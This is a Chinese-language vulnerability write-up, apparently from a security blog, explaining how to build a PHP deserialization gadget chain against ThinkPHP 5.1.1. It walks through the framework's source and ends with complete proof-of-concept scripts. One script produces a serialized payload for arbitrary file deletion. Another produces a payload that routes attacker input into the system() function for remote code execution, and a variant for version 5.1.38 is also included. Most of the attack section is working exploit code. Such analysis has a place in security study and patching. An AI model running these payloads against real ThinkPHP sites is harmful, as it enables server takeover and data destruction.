

Thinkphp 5.1.1 反序列化pop链构造
================================

一、漏洞简介
------------

5.1.1的代码实现和5.1.38不同，于是就有了这篇文章

二、漏洞影响
------------

Thinkphp 5.1.1

三、复现过程
------------

这个漏洞的起点是一个任意文件删除漏洞\$this-\>files内容没有过滤，可以传入任意数值。

    /thinkphp/library/think/process/pipes/Windows.php
    public function __destruct()
        {
            $this->close();
            $this->removeFiles();
        }

     private function removeFiles()
        {
            foreach ($this->files as $filename) {
                if (file_exists($filename)) {
                    @unlink($filename);
                }
            }
            $this->files = [];
        }

poc

    <?php
    namespace think\process\pipes;
    class Windows
    {
        private $files = [];
        public function __construct()
        {
            $this->files = ['1.php'];
        }
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

### 反序列链构造

> 先分析一下thinkphp5.1.38的poc

    <?php
    namespace think;
    abstract class Model{
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["ethan"=>["calc.exe","calc"]];
            $this->data = ["ethan"=>new Request()];
        }
    }
    class Request
    {
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            // 表单请求类型伪装变量
            'var_method'       => '_method',
            // 表单ajax伪装变量
            'var_ajax'         => '_ajax',
            // 表单pjax伪装变量
            'var_pjax'         => '_pjax',
            // PATHINFO变量名 用于兼容模式
            'var_pathinfo'     => 's',
            // 兼容PATH_INFO获取
            'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            // 默认全局过滤方法 用逗号分隔多个
            'default_filter'   => '',
            // 域名根，如thinkphp.cn
            'url_domain_root'  => '',
            // HTTPS代理标识
            'https_agent_name' => '',
            // IP代理获取标识
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            // URL伪静态后缀
            'url_html_suffix'  => 'html',
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = ["var_ajax"=>''];
            $this->hook = ["visible"=>[$this,"isAjax"]];
        }
    }
    namespace think\process\pipes;

    use think\model\concern\Conversion;
    use think\model\Pivot;
    class Windows
    {
        private $files = [];

        public function __construct()
        {
            $this->files=[new Pivot()];
        }
    }
    namespace think\model;

    use think\Model;

    class Pivot extends Model
    {
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));
    ?>

file\_exists如果传入的是对象,将会将对象以字符串的形式处理。而**toString魔术方法是当一个对象被当作字符串对待的时候,会触发这个魔术方法。所以全局搜索带有toString函数的类。****最后找到\\thinkphp\\library\\think\\model\\concern\\Conversion.php的Conversion类****后面的调用流程是**
toString\-\--\>\$this-\>toJson\-\-\--\>\$this-\>toArray跟进到toArray方法里，在3.1.38的poc里是通过调用\$relation-\>visible方法，向\$relation传入request对象，而request对象没有visible方法，从而调用\*\*call方法。而我们这里也可以使用这种方法。(注意:\*\*call传入的第一个参数是方法名，第二个参数是参数数组。所以这里传入\_\_call方法的方法名为append，而不是原来的visible)

    $relation = $this->getAttr($key);
    $item[$key] = $relation->append($name)->toArray();
    thinkphp3.1.38代码
    $relation = $this->getAttr($key);
    if ($relation) { $relation->visible($name); }
    public function __toString()
        {
            return $this->toJson();
        }

    public function toJson($options = JSON_UNESCAPED_UNICODE)
        {
            return json_encode($this->toArray(), $options);
        }
    public function toArray()
        {
            $item    = [];
            $visible = [];
            $hidden  = [];

            ......
            foreach ($data as $key => $val) {
            .........

            // 追加属性（必须定义获取器）
            if (!empty($this->append)) {
                foreach ($this->append as $key => $name) {
                    if (is_array($name)) {
                        // 追加关联对象属性
                        $relation   = $this->getAttr($key);
                        $item[$key] = $relation->append($name)->toArray();
                    } elseif (strpos($name, '.')) {
                        list($key, $attr) = explode('.', $name);
                        // 追加关联对象属性
                        $relation   = $this->getAttr($key);
                        $item[$key] = $relation->append([$attr])->toArray();
                    } else {
                        $value = $this->getAttr($name, $item);
                        if (false !== $value) {
                            $item[$name] = $value;
                        }
                    }
                }
            }

            return $item;
        }

由于Conversion和Attribute是trait类型，不能直接调用，所以要找到调用这两个类的类即model类。

    abstract class Model implements \JsonSerializable, \ArrayAccess
    {
        use model\concern\Attribute;
        use model\concern\RelationShip;
        use model\concern\ModelEvent;
        use model\concern\TimeStamp;
        use model\concern\Conversion;

model类是抽象类，不能直接调用。所以调用他的子类Pivot类(think\\Model\\Pivot)。

在源码中查找存在\*\*call函数和没有append方法的类，(\*\*call方法是在类没有调用函数的时候调用,第一个参数为方法名，第二个参数为方法的第一个参数)最后查找到的是/thinkphp/library/think/Request.php的Request类,其中存在call\_user\_func\_array方法

     public function __call($method, $args)
        {
            if (array_key_exists($method, $this->hook)) {
                array_unshift($args, $this);
                return call_user_func_array($this->hook[$method], $args);
            } else {
                throw new Exception('method not exists:' . static::class . '->' . $method);
            }
        }

虽然\$this-\>hook可控,但是由于array\_unshift函数的作用，导致\$args数组中会加入新的数组，所以判断不好利用。但是他是一个回调函数，可以以\$this-\>hook\[\$method\]=\[\$this,methodName\]这种形式回调函数。在Request类中查找call\_user\_func\_array这种类型的函数，最后找到filterValue函数。filterValue函数里面的call\_user\_func\_array方法是这个漏洞的触发点。回溯\$filter和\$value

     private function filterValue(&$value, $key, $filters)
        {
            $default = array_pop($filters);

            foreach ($filters as $filter) {
                if (is_callable($filter)) {
                    // 调用函数或者方法过滤
                    $value = call_user_func($filter, $value);
                } elseif (is_scalar($value)) {
                    if (false !== strpos($filter, '/')) {
                        // 正则过滤
                        if (!preg_match($filter, $value)) {
                            // 匹配不成功返回默认值
                            $value = $default;
                            break;
                        }
                    } elseif (!empty($filter)) {
                        // filter函数不存在时, 则使用filter_var进行过滤
                        // filter为非整形值时, 调用filter_id取得过滤id
                        $value = filter_var($value, is_int($filter) ? $filter : filter_id($filter));
                        if (false === $value) {
                            $value = $default;
                            break;
                        }
                    }
                }
            }

            return $value;
        }

最后找到这样的一个调用流程，可以控制\$filter, \$value这两个变量。isAjax()\-\-\--\>\$this-\>param()\-\-\-\--\>\$this-\>input\-\-\-\-\-\--\>\$this-\>filterValue
分析下\$filter, \$value这两个变量的传递过程:\$value:isAjax方法的\$this-\>config-\>get(\'var\_ajax\')\-\-\--\>param方法的\$name\-\-\-\--\>input方法的\$name。所以\$value可控。

\$filter参数:param方法\$this-\>param\-\-\--\>input方法\$data

     public function isAjax($ajax = false)
        {
            $value  = $this->server('HTTP_X_REQUESTED_WITH', '', 'strtolower');
            $result = ('xmlhttprequest' == $value) ? true : false;

            if (true === $ajax) {
                return $result;
            } else {
                return $this->param($this->config->get('var_ajax')) ? true : $result;
            }
        }

     public function param($name = '', $default = null, $filter = '')
        {
            if (empty($this->param)) {
                .......

            return $this->input($this->param, $name, $default, $filter);
        }

     public function input($data = [], $name = '', $default = null, $filter = '')
        {
            if (false === $name) {
                // 获取原始数据
                return $data;
            }

            $name = (string) $name;
            if ('' != $name) {
                // 解析name
                if (strpos($name, '/')) {
                    list($name, $type) = explode('/', $name);
                } else {
                    $type = 's';
                }
                // 按.拆分成多维数组进行判断
                foreach (explode('.', $name) as $val) {
                    if (isset($data[$val])) {
                        $data = $data[$val];
                    } else {
                        // 无输入数据，返回默认值
                        return $default;
                    }
                }
                if (is_object($data)) {
                    return $data;
                }
            }

            // 解析过滤器
            $filter = $this->getFilter($filter, $default);

            if (is_array($data)) {
                array_walk_recursive($data, [$this, 'filterValue'], $filter);
                reset($data);
            } else {
                $this->filterValue($data, $name, $filter);
            }

            .......
            return $data;
        }

\$this-\>param=array\_merge(\$this-\>param, \$this-\>get(false), \$vars,
\$this-\>route(false));是直接从url中获取参数。\$this-\>config-\>get(\'var\_ajax\')也是可控的。但是他和5.1.38不同的是，5.1.38的方法是\$this-\>config\[\'var\_ajax\'\],所以导致不能用数组直接操控config值。我的解决办法是从源码中查找含有get函数的类,通过pop链的方式操控config的值。
最后发现\\think\\Hook.php的Hook类存在get方法

    public function get($tag = '')
        {
            if (empty($tag)) {
                //获取全部的插件信息
                return $this->tags;
            } else {
                return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
            }
        }

由上面代码可以看出，程序会判断传入的\$tag是否为空，不为空的话会返回传入参数在tags数组中对应的值。private
\$tags =
\[\"var\_ajax\"=\>\'a\'\];类似于这种形式，便可以操控\$this-\>config-\>get(\'var\_ajax\')的值。由此\$filter和\$value都是可控的。所以可以通过filterValue方法中的call\_user\_func\_array任意代码执行。

### poc

    <?php
    namespace think;
    abstract class Model
    {
        protected $append = [];
        private $data = [];
        function __construct(){
            $this->append = ["a"=>["calc.exe"]];
            $this->data = ["a"=>new Request()];
        }
    }
    namespace think\model;
    use think\Model;
    class Pivot extends Model
    {
    }
    namespace think\process\pipes;
    use think\model\Pivot;
    class Windows
    {
        private $files = [];
        public function __construct()
        {
            $this->files = [new Pivot()];
        }
    }
    namespace think;
    class Request
    {
        protected $hook = [];
        protected $filter = "system";
        protected $config = [
            // 表单请求类型伪装变量
            'var_method'       => '_method',
            // 表单ajax伪装变量
            'var_ajax'         => '_ajax',
            // 表单pjax伪装变量
            'var_pjax'         => '_pjax',
            // PATHINFO变量名 用于兼容模式
            'var_pathinfo'     => 's',
            // 兼容PATH_INFO获取
            'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            // 默认全局过滤方法 用逗号分隔多个
            'default_filter'   => '',
            // 域名根，如thinkphp.cn
            'url_domain_root'  => '',
            // HTTPS代理标识
            'https_agent_name' => '',
            // IP代理获取标识
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            // URL伪静态后缀
            'url_html_suffix'  => 'html',
        ];
        function __construct(){
            $this->filter = "system";
            $this->config = new Hook();
            $this->hook = ["append"=>[$this,"isAjax"]];
        }

    }
    namespace think;
    class Hook{
        private $tags = ["var_ajax"=>'a'];
        public function get($tag = '')
        {
            if (empty($tag)) {
                //获取全部的插件信息
                return $this->tags;
            } else {
                return array_key_exists($tag, $this->tags) ? $this->tags[$tag] : [];
            }
        }
    }
    use think\process\pipes\Windows;
    echo base64_encode(serialize(new Windows()));

> 漏洞的利用前提是存在一个点可以输入点可以反序列化。

